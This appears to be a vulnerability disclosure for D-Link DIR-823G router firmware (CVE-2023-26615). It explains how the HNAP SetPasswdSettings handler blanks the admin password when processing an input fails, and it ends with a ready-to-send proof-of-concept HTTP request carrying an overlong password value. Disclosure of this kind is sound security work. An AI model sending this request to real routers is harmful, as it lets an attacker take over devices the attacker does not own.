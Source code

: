 # DIR823G_V1.0.2B05_20181207.bin Reset password vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- CVE：CVE-2023-26615

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

SetMultipleActions handler function will traverse the function list, and then query whether there is a matching function in the incoming data. When SetPasswdSettings exists, the SetPasswdSettings handler will be executed.

![](img/2.jpg#center)

SetPasswdSettings handler function 35 lines of code try to process the incoming password, if the processing fails, execute 53 lines of code to set the password to empty.

![](img/3.jpg#center)


## Vulnerability verify

![](img/4.gif#center)


## POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetMultipleActions"
HNAP_AUTH: 8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820
X-Requested-With: XMLHttpRequest
Content-Length: 550
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/SNTP.html
Cookie: uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetPasswdSettings xmlns="http://purenetworks.com/HNAP1/"><NewPassword>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</NewPassword></SetPasswdSettings></SetMultipleActions></soap:Body></soap:Envelope>
```
